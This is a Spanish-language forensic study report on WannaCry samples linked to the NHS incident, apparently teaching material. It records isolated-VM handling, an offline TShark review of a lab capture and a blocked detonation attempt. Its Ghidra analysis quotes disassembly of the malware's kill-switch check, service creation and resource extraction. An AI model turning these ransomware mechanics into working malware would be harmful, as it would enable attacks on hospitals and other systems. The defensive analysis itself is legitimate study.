Se ejecutaron comprobaciones de hash, restauración de un texto ficticio y
apertura/cierre de Bloc de notas. La sección 11.4 registra resultados y el
desfase aproximado de cinco horas entre relojes. Se validó el uso de PowerShell
y herramientas integradas, no los paquetes descargados. La copia se apagó al
finalizar y se comprobó el aislamiento; las pruebas del laboratorio son ahora
19, al añadir el control de transferencias por portapapeles. No hubo detonación.

### Actualización: revisión de tráfico con Wireshark, 21 de noviembre

La copia `forense-nhs-win10-copia` se comprobó apagada: ocho NIC desactivadas,
sin carpetas compartidas, clipboard, transferencia de archivos por clipboard,
drag/drop, USB ni VRDE. No se habilitó ninguna red. La configuración ya satisface
el aislamiento requerido para manipular la captura offline; no era necesario
modificar la VM ni exponerla a un segmento de red.

Se utilizó TShark 4.7.4, componente de línea de comandos de Wireshark instalado
en el anfitrión, para analizar un PCAP externo de un laboratorio de pruebas. La
fuente declara el mismo SHA-256 del ejemplar 24d004… examinado estáticamente.
La captura y su registro de procedencia permanecen bajo `local/` y fuera de Git.
Esto completa una revisión de tráfico reproducible; no es captura hecha por
nuestro equipo, no es tráfico del NHS, no se instaló Wireshark dentro del invitado
y no se ejecutó WannaCry en esa copia durante la revisión offline.

Para permitir que el equipo estudie el mismo archivo sin red, se creó
`local/wannacry-pcap-lectura.iso` con el PCAP y una guía de filtros, sin incluir
el ejecutable del malware. El ISO es de tipo `readonly`, su SHA-256 es
`4357060927ffaa75ebbfe267fcaa126558cba80305b1459b65df9e2652074771` y está
adjunto a SATA 3 de `forense-nhs-win10-copia`. El contenido extraído del ISO
coteja con el SHA-256 del PCAP. Wireshark todavía no está instalado ni se declara
abierto dentro del invitado; el instalador oficial 4.6.9 está en el DVD de
herramientas en SATA 2. La revisión ya se realizó con TShark 4.7.4 en el
anfitrión; la unidad proporciona una copia offline, de solo lectura, para que el
equipo pueda seguir las mismas conversaciones en la interfaz de Wireshark.

### Actualización: intento controlado bloqueado por protección de Windows, 21 de noviembre

La copia base `forense-nhs-win10-copia` permaneció apagada y con sus ocho NIC
desactivados. Se creó un clon enlazado desde su snapshot de práctica, se conectó
un ISO de muestra de solo lectura y se habilitó únicamente una red interna
VirtualBox sin NAT, puente ni acceso al anfitrión. La propia interfaz de Windows
mostró IPv4 `169.254.106.134`, sin puerta de enlace ni DNS. Carpetas compartidas,
USB, portapapeles, transferencia por portapapeles, drag-and-drop y VRDE estuvieron
desactivados. PowerShell informó que Windows no podía abrir la muestra porque
contenía un virus o software potencialmente no deseado, un mensaje compatible
con bloqueo antimalware. No se consultó un evento que identifique el motor o la
firma. No se modificó Defender ni se intentó sortear el bloqueo. No se obtuvo
evidencia de ejecución efectiva. El clon se apagó y eliminó;
copia base y original quedaron intactas.

`local/wannacry-detonacion/` conserva el ZIP, el ejecutable, ISO, capturas, PCAP,
análisis y hashes; todo está excluido de Git. TShark 4.7.4 reportó 100 paquetes,
duración 449,225006 s, cero TCP, cero TCP/445 y cero DNS. Los paquetes observados
son del inicio y descubrimiento de Windows, sin base para atribuirlos a WannaCry.
El PCAP de nictrace tiene timestamps absolutos en 1969 y no sirve para establecer
la hora de los hechos. Por tanto, el resultado es un intento bloqueado, no una
detonación ni una prueba del comportamiento de red del malware. El reporte
metodológico y el mapeo limitado a SP 800-86/CSF 2.0 están en
`ejecucion_controlada_bloqueada.md`.


### 5.1 Herramientas y función en el estudio

| Herramienta | Para qué se utiliza | Estado y límite |
|---|---|---|
| Ghidra 12.2 DEV, anfitrión | Proyecto y exportaciones del 15/11 | Resultados preservados; sin nueva sesión MCP en esta edición |
| Ghidra 12.2 PUBLIC y JDK 25, paquetes Windows | Estación futura de lectura | Descargas fijadas; instalación en invitado requiere evidencia |
| Sysinternals | Observación de actividad benigna | No equivale a captura realizada |
| FLOSS | Examen de cadenas | No confundir texto extraído con ejecución |
| Wireshark/TShark 4.7.4, anfitrión | Revisión offline de una captura externa publicada | Uso de TShark comprobado; la copia Windows sigue apagada, sin NICs y sin instalación de Wireshark declarada dentro del invitado |
| WinPmem y Volatility 3 | Adquisición y análisis de RAM, si se autorizan y prueban | Ninguna captura o análisis de RAM declarado aquí |

Las versiones y SHA-256 de descargas están en `config/descargas.lock.json`; SP 800-86 tiene manifiesto complementario. No se sustituyen silenciosamente paquetes. Una descarga correcta no demuestra que una herramienta funcione dentro de Windows. La compatibilidad y la prueba benigna deben documentarse por separado.

### 5.2 Preparación de una sesión estática

1. Leer alcance, identificar el objeto por hash y registrar la fecha real.
2. Comprobar aislamiento antes de usar la estación; guardar el resultado fuera de Git.
3. Trabajar sobre una copia autorizada, preservando originales y manifiestos.
4. Abrir el proyecto local conservado en Ghidra o consultar las transcripciones si no se dispone del proyecto.
5. Seleccionar el programa por hash, no solo por nombre. Abrir Listing y Decompiler.
6. Usar navegación a dirección y llegar a la función indicada en cada capítulo. Revisar sus referencias.
7. Anotar observación, camino alternativo y efecto que permanece pendiente.
8. Guardar exportaciones y registro real de la sesión, con versión de herramienta y hashes; publicar únicamente síntesis académica revisada.

El proyecto local está en `local/ghidra/proyectos/WannaCry_NHS.gpr`. Las exportaciones conservadas corresponden a `local/exportaciones-ghidra/20261115T175358527847Z/`. El lanzador y la consulta MCP están documentados en `docs/ghidra-mcp.md`. Que exista ese procedimiento no significa que el puente esté activo; en la comprobación de esta edición no escuchaba en 127.0.0.1:8765.

### 5.3 Revisión offline de una captura real de laboratorio con TShark

Para observar tráfico sin conectar la VM a ninguna red, se analizó un PCAP publicado por Malware-Traffic-Analysis.net. El editor indica que la captura fue enviada por David Szili desde un entorno de prueba; la página identifica `192.168.116.149` como equipo donde se lanzó WannaCry y declara el SHA-256 del binario. Ese hash coincide exactamente con el objeto local 24d004…. La coincidencia vincula el ejemplar descrito con la captura del laboratorio externo; no vincula ese entorno con el NHS. [T5]

La evidencia se preservó en `local/analisis-wireshark-20261121/`: PCAP SHA-256 `feb8befd8d6891511bd00471d153a2bf8d57d022e1d81e00755941b872fdc355`; ZIP de origen SHA-256 `03b2fb0ef820ffc258fa114822058ec129e0badd903f1e3835580f665ed1ecff`. El ZIP se comprobó con 7-Zip. Capinfos registra 46.654 paquetes Ethernet y una duración de 695,472382 segundos. TShark 4.7.4 es la versión de Wireshark utilizada en el anfitrión; el PCAP y el ejecutable de malware nunca se ejecutaron.

**Observaciones reproducibles en la captura:**

1. El filtro `ip.addr==192.168.116.149 && tcp.port==445` muestra conversaciones del host identificado por la fuente hacia otros equipos por TCP/445.
2. El filtro `ip.src==192.168.116.149 && tcp.dstport==445 && smb.cmd==0x32` devuelve solicitudes SMB1 TRANS2 a varios destinos, incluidos `.138`, `.143` y `.172`. Esto demuestra intercambios en el PCAP; el comando aislado no demuestra que el exploit terminara con infección.
3. El PCAP completo incluye 16.389 tramas TCP decodificadas como NBSS/SMB. Ese total contiene tráfico de varios equipos, no se atribuye todo a WannaCry.
4. No hay coincidencias en esta captura para las consultas DNS al dominio kill switch ni para tráfico TCP/80 del host `.149`. No se concluye que el proceso omitiera esa consulta: el PCAP puede empezar después o no contener ese tramo.

La página del autor afirma que la muestra se propagó a otros hosts de su laboratorio. La captura respalda la actividad de red descrita, pero no acredita por sí sola qué archivos cifró cada víctima, quién inició la infección ni el resultado clínico de un equipo. Tampoco se exportaron archivos desde SMB. Para reproducir la revisión en Wireshark, abrir el PCAP local en modo lectura y aplicar los filtros anteriores; la VM debe continuar desconectada. [N1, §§3.1–3.4; T5]

**Relación NIST.** Se registraron procedencia publicada, identidad/hash del archivo, herramienta, observación e interpretación por separado, siguiendo el flujo de recolección, examen, análisis e informe de SP 800-86. La captura sirve como ejemplo para discutir monitoreo y análisis de red dentro del CSF 2.0; no demuestra que el NHS tuviera o no tuviera una capacidad concreta. El informe de la NAO y la revisión Smart siguen siendo las fuentes históricas del NHS. [N1; N2; H1; T5]

## 6. Análisis de 24d004…: decisión, servicio y carga

### Identidad, pregunta y evidencia

Este componente PE32 x86 tiene 3.723.264 bytes y SHA-256 24d004a104d4d54034dbcffc2a4b19a11f39008a575aa614ea04703480b1022c. La pregunta es cómo decide continuar y cómo se conecta con ed01…. El soporte son seis funciones seleccionadas, fragmentos de Listing y la relación del recurso R/1831. Las observaciones se refieren al programa importado en Ghidra, no a un proceso ejecutado.

### Decisión del kill switch: 00408140

La función copia una cadena y llama a InternetOpenA e InternetOpenUrlA. Guarda el resultado de esta última y lo compara con cero. Si es NULL, cierra handles según el código conservado y llama a 00408090. Si es no nulo, cierra los handles y evita esa llamada. Ambos caminos retornan cero. El bucle que copia la cadena no es una rutina de cifrado.

```text
0040819a  MOV EDI,EAX       ; resultado de InternetOpenUrlA
004081a3  TEST EDI,EDI      ; condición de cero
004081a5  JNZ 004081bc      ; no cero: evita la llamada
004081ad  CALL 00408090     ; camino de resultado cero
```

El Listing permite verificar la dirección de la rama. No debe invertirse la condición al explicarla: el camino NULL continúa hacia preparación. La API documenta el handle como resultado de apertura; esta función no consulta explícitamente un estado HTTP 200. Tampoco basta decir «con Internet se detiene»: el resultado depende de la operación concreta. [API1]



**Cómo leerla:** `InternetOpenUrlA` entrega un handle al programa. El rombo pregunta si ese handle es nulo. La rama NULL sigue hacia la preparación; la rama no NULL termina este camino. El código no pregunta si la respuesta web fue HTTP 200. Este flujo muestra una decisión prevista, no una conexión observada.

### Distribución por argumentos: 00408090 y 00407f20

00408090 obtiene la ruta del módulo y revisa la cantidad de argumentos (`argc`). `argc` cuenta los argumentos que recibió el programa, incluido normalmente el nombre del ejecutable. Si `argc < 2`, llama a 00407f20; con dos o más, toma la ruta de servicio y prepara StartServiceCtrlDispatcherA. Es una bifurcación del flujo de control: cada ejecución concreta sigue una de esas rutas.



En la rama corta, 00407f20 llama primero al auxiliar de servicio y después al procesamiento de R/1831. En la otra, el código consulta el Service Control Manager (SCM, administrador de servicios de Windows) y prepara el dispatcher. La figura resume ramas; los retornos de las APIs no equivalen a que el servicio haya quedado instalado.

00407f20 llama primero a 00407c40 y después a 00407ce0. No hay una condición entre ambas llamadas que valide el resultado de la primera. Por tanto, un fallo de creación de servicio no demuestra que la rutina de extracción no se alcanzaría. A la inversa, que ambas se llamen no demuestra que ambas tengan éxito.

### Solicitud de servicio: 00407c40

La rutina prepara la línea asociada al módulo con el argumento observado `-m security`, abre el administrador de servicios y solicita crear `mssecsvc2.0`. Si obtiene el handle del servicio, solicita iniciarlo y cierra handles. El resultado de StartServiceA no gobierna un reporte específico de éxito en esta función; el retorno final es cero.

Esta observación permite orientar una investigación hacia un servicio, su ruta y los registros correspondientes. No demuestra un evento System 7045 adquirido ni un servicio instalado. El nombre «Microsoft Security Center» de la cadena es parte del dato del programa y no confirma legitimidad. Debe contrastarse el ejecutable y su contexto.

### Recurso R/1831: 00407ce0

La función resuelve dinámicamente varias APIs de kernel32 mediante GetProcAddress. Después localiza el recurso de tipo R y número 0x727, obtiene sus datos y tamaño, prepara rutas y solicita creación, escritura y proceso en los caminos correspondientes. Las comprobaciones del recurso son visibles; no todas las operaciones posteriores comprueban o comunican éxito.

```text
00407d69  PUSH 0x43137c     ; referencia al tipo R
00407d6e  PUSH 0x727        ; identificador 1831
00407d73  PUSH EBX          ; módulo cero en este camino
00407d74  CALL [0040a05c]   ; FindResourceA
```

El recurso empieza en offset 204.964 del archivo y mide 3.514.368 bytes. La extracción preservada coincide con ed01… según los cotejos documentados. Esta es una relación de contenido fuerte; no demuestra el momento de lanzamiento. Las llamadas indirectas y sprintf del decompilado tienen argumentos imperfectos, por lo que su lectura exige Listing. No se interpreta una variable automática como puntero confirmado solo por su posición en el C recuperado.



Las cuatro direcciones de función que el código intenta resolver corresponden a CreateProcessA, CreateFileA, WriteFile y CloseHandle. Comprueba que estén disponibles antes de continuar.

El selector del recurso usa dos identificadores a la vez: el tipo `R` y el ID decimal `1831` (hexadecimal `0x727`). Si el módulo, las funciones o la referencia del recurso no están disponibles, el camino no llega a la carga. El identificador no es un nombre de archivo ni un puerto.



`FindResourceA` devuelve una referencia al recurso, no el contenido. Si no devuelve una referencia válida, la ruta no puede cargar esos bytes. La coincidencia tipo + ID especifica qué bloque dentro del PE intenta localizar el programa.



`LoadResource` obtiene un handle de los datos; `LockResource` obtiene un puntero a ellos; `SizeofResource` obtiene cuántos bytes tiene el recurso. Son pasos distintos, y cada uno depende del anterior. En este programa, la condición documentada es que el tamaño sea mayor que cero. El análisis independiente cotejó que el contenido extraído mide 3.514.368 bytes y coincide por SHA-256 con ed01…; ese cotejo lo hizo el analista, no lo hace esta función.



`CreateFileA` solicita abrir o crear el destino. Windows devuelve un handle o un valor inválido. Solo el handle válido conduce a la solicitud de `WriteFile`. El resultado de escritura no gobierna el retorno de esta rutina, así que el flujo estático no acredita que se hayan escrito todos los bytes.



Cuando el handle es válido, la rutina solicita escribir y luego solicita crear un proceso. El resultado de WriteFile no controla el retorno; por eso no se confirma que la escritura se completara. La rutina también solicita crear un proceso después de esa ruta. Una llamada a `CreateProcessA` es una solicitud: para acreditar creación y actividad se necesitarían eventos de proceso, archivos y tiempos de una ejecución atribuible.

### Referencia a 445: 00407480

La constante 0x1bd equivale a 445 y aparece junto a llamadas de WS2_32 por ordinal. Se reconoce un contexto de comunicación de red. El nombre descriptivo del analista facilita navegación, pero no reemplaza la identificación de prototipos, parámetros y llamadas. Esta función seleccionada no constituye una demostración integral de EternalBlue ni una conexión observada.

### Evaluación de resultados y alternativas

| Pregunta | Resultado del examen | Evidencia que falta para un efecto real |
|---|---|---|
| ¿Qué rama continúa? | NULL conduce a 00408090 | Resultado de API durante una ejecución concreta |
| ¿Contiene ed01…? | R/1831 coincide con ese componente | Ninguna adicional para la relación documentada; sí para procedencia histórica |
| ¿Crea el servicio? | Hay una solicitud condicionada | Registro, configuración y contexto de ejecución |
| ¿Explota otro host? | Rutina con constante 445 e importaciones | Cadena completa y artefactos del host/red |

Para revisar, localizar el hash, abrir cada dirección, marcar precondiciones, contrastar TEST/JNZ y registrar la relación del recurso. No contactar el dominio ni ejecutar el componente. NIST: RS.AN-03 para el razonamiento, RS.AN-07 para identidad, DE.CM-09 para futuras fuentes de ejecución y GV.OV-01 para relacionar la lección histórica de supervisión.

### Lectura por capas OSI: qué aplica y qué queda fuera

| Evidencia del código | Capa / relación | Qué puede concluirse | Qué no prueba este fragmento |
|---|---|---|---|
| `InternetOpenA` / `InternetOpenUrlA` en 00408140 | Capa 7, aplicación (WinINet/HTTP) | El programa solicita abrir una URL y ramifica por handle nulo/no nulo | Respuesta HTTP 200, contenido recibido, DNS observado o conexión efectiva |
| TCP/IP, direccionamiento y enlace que usaría Windows si WinINet comunica | Capas 4–1, dependientes de la pila del sistema | Son las capas necesarias para transportar una petición HTTP en una red habilitada | No se reconstruyen desde esta función ni se observaron en el intento bloqueado |
| `0x1bd` (445) junto a WS2_32 en 00407480 | Posible actividad de transporte/SMB; el puerto por sí solo no define OSI | Hay un indicador que merece seguirse por referencias, llamadas, parámetros y destinos | No basta para asignar toda la función a SMB, demostrar explotación, éxito o propagación |
| SCM, recursos PE, archivos y CreateProcess | Operaciones locales de Windows, fuera de OSI | El componente solicita servicio, acceso a un recurso y operaciones de archivo/proceso | Instalación efectiva, escritura real o creación/éxito del proceso |

**Idea para explicar en clase:** OSI sirve para ordenar la comunicación cuando existe tráfico. No todo el programa «pasa por capas»: control de servicios, lectura de recursos y creación de procesos ocurren dentro del sistema operativo. El código estático muestra una petición de capa de aplicación y un indicio separado asociado a 445; el PCAP externo es evidencia distinta y aporta observaciones de red que no deben atribuirse automáticamente a la ejecución local.

**Conclusión del componente:** se comprueba una decisión y un mecanismo de preparación y extracción. La historia del NHS explica por qué esos mecanismos importan, pero su ocurrencia en un hospital específico no se deriva del código local.


## 7. Análisis de ed01…: paquete y frontera de carga

### Identidad, pregunta y evidencia

ed01… es PE32 x86, de 3.514.368 bytes, SHA-256 ed01ebfbc9eb5bbea545af4d01bf5f1071661840480439c6e5babe8e080e41aa. Coincide con el recurso R/1831 anterior. La pregunta es cómo organiza sus miembros y qué puede afirmarse sobre la carga siguiente. Se seleccionaron cuatro funciones de 244 reconocidas; no se reconstruyó toda la criptografía.

### Acceso al paquete: 00401dab

La rutina localiza el tipo XIA e identificador 0x80a, carga y bloquea el recurso y obtiene el tamaño. Pasa datos a una auxiliar y, si obtiene un resultado válido, consulta y recorre entradas. Cuando la entrada se llama c.wnry y GetFileAttributesA informa un valor válido, evita la extracción de esa entrada. En otras condiciones solicita la operación de extracción mediante una auxiliar.

```text
00401db6  PUSH 0x40f43c     ; tipo XIA
00401dbb  PUSH 0x80a        ; identificador 2058
00401dc0  PUSH [EBP+0x8]    ; módulo
00401dc3  CALL [00408100]   ; FindResourceA
00401dcb  TEST ESI,ESI
00401dcd  JZ 00401e07       ; salida de fallo
```



El formato ZIP no se deduce del nombre XIA: procede del examen del contenido, estructura y comprobaciones de CRC de la extracción estática. El paquete mide 3.446.325 bytes y tiene 36 miembros. Que la rutina termine con 1 tras cerrar el paquete no prueba que cada archivo se escribiera; incluso un conteo sin entradas puede alcanzar ese retorno. [API2; manifiesto local]



`FindResourceA` localiza los datos dentro del PE. `LoadResource` y `LockResource` obtienen acceso al contenido; `SizeofResource` consulta el tamaño; 004075ad abre o interpreta el paquete. El nombre XIA no prueba que el contenido sea ZIP: eso se comprobó fuera del flujo del malware con su estructura y CRC.



En cada vuelta, la rutina lee un nombre y toma una rama. Los miembros distintos de `c.wnry` llegan a la llamada 0040763d. El bucle incrementa el índice y vuelve a comprobar si quedan entradas. Si la lista se agota, cierra el paquete; si el nombre es `c.wnry`, el control salta a una regla especial. Al terminar la lista se cierra el paquete y el auxiliar puede retornar 1. Ese retorno solo describe la ruta de la función; no acredita el contenido de cada archivo.



Si `GetFileAttributesA` devuelve atributos válidos, el archivo ya existe y la rutina omite la extracción de `c.wnry`. Si devuelve el marcador de error, solicita extraerlo. No se ve una comparación del hash del archivo existente con el miembro: “ya existe” no significa “es el mismo archivo” ni “está íntegro”.

### Preparación y caminos: 00401fe7

La función tiene una rama inicial especial asociada a cantidad y contenido de argumentos. En ciertas condiciones intenta copiarse como tasksche.exe y puede retornar antes de la preparación principal. El informe no elimina esa salida para dibujar una secuencia más simple.

El camino posterior establece un directorio de trabajo y llama a la extracción del paquete. Solicita operaciones auxiliares de atributos y permisos por medio de 00401064 con espera cero. “Espera cero” significa que el llamador no bloquea el flujo hasta que termine el proceso auxiliar; por tanto, el orden de llamadas no demuestra que cada operación termine antes de la siguiente comprobación.



Después aparecen condiciones sobre auxiliares de preparación, lectura de t.wnry, procesamiento posterior y obtención de un destino asociado a TaskStart. Solo si esas condiciones permiten continuar se realiza la llamada indirecta. Los nombres de auxiliares automáticos no constituyen una explicación de sus cuerpos.

